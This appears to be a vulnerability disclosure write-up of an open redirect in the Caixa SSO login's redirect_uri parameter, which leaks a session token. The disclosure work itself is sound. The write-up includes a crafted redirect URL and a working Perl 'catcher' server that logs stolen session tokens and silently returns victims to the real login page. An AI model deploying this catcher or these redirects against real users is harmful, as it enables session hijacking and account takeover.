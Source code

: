 [http://acessoseguro.sso.caixa.gov.br/cidadao/auth?response_type=code&client_id=portal-inter&segmento=CIDADAO01&template=portal&redirect_uri=http://acessoseguro.sso.caixa.gov.br]()

The last parameter in the URL presents a potential Open Redirect vulnerability: &redirect_uri=. The value inserted in this parameter indicates the URL to which the user will be redirected after completing the login process.

To validate this, the value of the &redirect_uri= parameter in the original URL was changed to the Google homepage URL. After entering valid credentials and logging in, the following result was obtained:

<iframe width="100%" height="523" src="https://www.youtube.com/embed/d6EXPMQPcZw" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"></iframe>

-

As shown, the application has an Open Redirect vulnerability. However, another detail was noticed: during the redirection, an additional parameter was sent, as observed in the URL:

[https://google.com/?code=e629bd01-00cd-4b67-8f5d-f7fc50c2a9c7](https://google.com/?code=e629bd01-00cd-4b67-8f5d-f7fc50c2a9c7)

After analyzing the ?code= parameter and the original request, it was verified that the value of this parameter corresponds to a Session Token[[2]](#references).

With this finding, it became evident that this vulnerability has a high severity, as the user could fall victim to an attack where they are redirected to a malicious URL controlled by an attacker, who can capture the Session Token. By doing so, the attacker gains access to the user's account, compromising the confidentiality and integrity of their data.

---

### Proof Of Concept

To demonstrate the possibility of token leakage and capture, the following code was used:

```perl
#!/usr/bin/env perl
# perl catcher.pl daemon -m production -l http://\*:8080

use 5.030;
use strict;
use warnings;
use Mojolicious::Lite -signatures;

get "/" => sub ($catcher) {
    $catcher -> res -> headers -> header("Access-Control-Allow-Origin" => "*");

    my $code = $catcher -> param("code");

    open (my $logs, ">>", "catcher.logs");
    print $logs "[+] - New Session Token -> '$code' has been catch.\n";
    close ($logs);

    return ($catcher -> render (
        text => "<script>window.location='https://acessoseguro.sso.caixa.gov.br/portal/login/?code=$code'</script>"
    ));

};

app -> start();
```
